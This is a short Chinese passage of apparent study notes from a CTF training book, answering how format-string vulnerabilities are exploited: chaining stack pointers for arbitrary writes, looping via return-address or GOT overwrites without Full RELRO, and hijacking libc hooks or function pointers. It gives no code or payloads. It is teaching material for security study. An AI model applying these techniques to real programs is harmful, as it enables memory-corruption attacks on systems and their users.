    8. 链为 path2→path1→path0→buff：通过 path2 的索引 m2 改 path0 的值，通过 path1 的索引 m1 改 buff 的值，再由 path0 的索引 m0 改 target 所指向的内存，实现任意地址写。
    9. ①把返回地址改写为程序入口构造循环；②未开 Full RELRO 时改写 got 表构造循环；③改写函数指针、libc hook 指针。
    10. 把函数钩子指针或函数 got 表等部分可写地址改写成 printf 函数，从而获得更多泄露或改写能力。
## 参考资料

- 原书：CTF特训营（FlappyPig战队 著，机械工业出版社 2020）。

*来源：CTF特训营（FlappyPig战队 著，机械工业出版社 2020），OCR 全内容保留整理版。*
